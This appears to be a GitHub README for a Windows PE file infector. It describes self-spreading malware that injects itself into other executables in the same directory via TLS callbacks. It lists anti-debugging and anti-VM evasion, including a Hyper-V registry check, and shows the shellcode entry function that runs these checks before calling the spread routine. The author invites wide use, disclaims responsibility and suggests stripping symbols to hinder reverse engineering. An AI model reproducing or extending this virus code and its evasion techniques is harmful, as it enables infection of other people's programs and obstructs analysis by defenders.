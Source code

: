 # PE-infector
A small project that infect itself (malicious payload) to other file and trigger when run
Use it widely, I won't be responsible for any damage cause by this project.
### Build
``make`` to build the project
``make clean`` to clean stuff(object file, .exe file), only keep the source
Final file: ``final.exe``


### What it does
- [x] TLS callback inject
- [x] Inject itself to anther file (in same directory), the infected can also do the same
- [x] Checking debugger (anti debug)
- [x] Checking Virtualization
- [ ] IAT patching
- [x] All shellcode, only .text section required

### Some note
-   About Anti VM: I use cpuid for detection, if you using windows with hyperV enable, you probably gonna get VM detect message even you run it on physical OS. That's because, when hypervisor is enable, the host OS is still gonna run under virtualization (this will explain everything, in the limitation part: [link](https://learn.microsoft.com/en-us/virtualization/hyper-v-on-windows/about/))
Update: I did do some update so that even host OS is working on hypervisor layer, the malware still work, by checking registry ``"SOFTWARE\\Microsoft\\Virtual Machine\\Guest\\Parameters"``, if there is a registry key name: VirtualMachineID or VirtualMachineName -> It should be HyperV (even though this could really easy to counter by adjust , add or remove registry keys)
-   In case you want to test it with no anti-vm, no anti-debug, go to this code in shellcode.c and comment these line:
```c
void shellcode()
{
    #pragma GCC diagnostic ignored "-Wcast-function-type"
    HMODULE kernel32 = getModuleByName(aKernel32dll);
    pGetProcAddress _GetProcAddress = (pGetProcAddress)getFuncByName(kernel32, aGetProcAddress);
    pLoadLibraryA _LoadLibraryA = (pLoadLibraryA)_GetProcAddress(kernel32, aLoadLibraryA);
    HMODULE user32 = _LoadLibraryA(aUser32dll);
    pMessageBoxA _MessageBoxA = (pMessageBoxA)_GetProcAddress(user32, aMessageBoxA);
    #pragma GCC diagnostic pop
    if (isDebuggerPresentBit(kernel32, _GetProcAddress) == TRUE) // <-- comment this section for no anti-debug
    {
        _MessageBoxA(NULL, aDbgDetected, NULL, 0);
        goto EXITDOOR;
    }
    if (detectWithNTQuery(kernel32, _GetProcAddress, _LoadLibraryA)) // <-- comment this section for no anti-debug
    {
        _MessageBoxA(NULL, aDbgDetected, NULL, 0);
        goto EXITDOOR;
    }
    if (detectCPUID_ManufactureID(kernel32, _GetProcAddress, _LoadLibraryA)) // <-- comment this section for no anti-vm
    {
        if (detectRegKey(kernel32, _GetProcAddress, _LoadLibraryA))
        {
            _MessageBoxA(NULL, aVMDetected, NULL,0);
            goto EXITDOOR;
        }
    }
    if (detectCPUID_HypervisorBit()) // <-- comment this section for no anti-vm
    {
        if (detectRegKey(kernel32, _GetProcAddress, _LoadLibraryA))
        {
            _MessageBoxA(NULL, aVMDetected, NULL,0);
            goto EXITDOOR;
        }
        
    }
    spread(kernel32, _GetProcAddress, _LoadLibraryA);
    _MessageBoxA(NULL, aMSSV, NULL, 0); 
    EXITDOOR:
    return;
}
```
-   Currently I dont have time to implement some method such as: checking registry (for detect VM), capture process list and check for debugger, ... That will be story of another time.
-   There is no harm in the original code, but I still warn you to compile it instead of using my PE.
-   If you want to make the reverse task more challenging, you should add -s and -O3 flag to the last line( the ``gcc start.o decryptor.o shellcode.o -o final.o -m64 ...``) to strip all symbol and optimize code
